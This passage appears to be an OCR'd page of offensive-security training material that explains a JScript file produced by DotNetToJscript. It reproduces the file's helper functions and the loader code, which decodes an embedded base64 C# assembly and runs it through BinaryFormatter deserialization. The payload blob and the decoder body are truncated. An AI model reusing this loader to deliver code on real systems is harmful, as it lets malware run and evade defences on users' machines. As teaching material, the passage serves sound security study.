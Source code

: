 > Listing 19 - First helper functions of Jscript file

Let's examine each of these. The _setversion_ function configures the Windows Script Host to use version 4.0.30319 of the .NET framework:

```
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';
```

> Listing 20 - First helper function

The second function (_debug_) is empty, since we did not specify the debug flag (**-d**) when invoking DotNetToJscript:

```
function debug(s) {}
```

> Listing 21 - Second helper function

Finally, the _base64ToStream_ function is simply a Base64 decoding function that leverages various .NET classes through ActiveXObject instantiation:

```
function base64ToStream(b) {
...
}
```

> Listing 22 - Third helper function

Following the helper functions, we find the main content of the script, as shown:

```
var serialized_obj = "AAEAAAD/////AQAAAA...

var entry_class = 'TestClass';

try {
	setversion();
	var stm = base64ToStream(serialized_obj);
	var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
	var al = new ActiveXObject('System.Collections.ArrayList');
	var d = fmt.Deserialize_2(stm);
	al.Add(undefined);
	var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
	
} catch (e) {
    debug(e.message);
}
```

> Listing 23 - Code to decode and deserialize the C# assembly

Let's analyze this code. First, a Base64 encoded binary blob is embedded into the file. This is our compiled C# assembly.

```
var serialized_obj = "AAEAAAD/////AQAAAA...
```
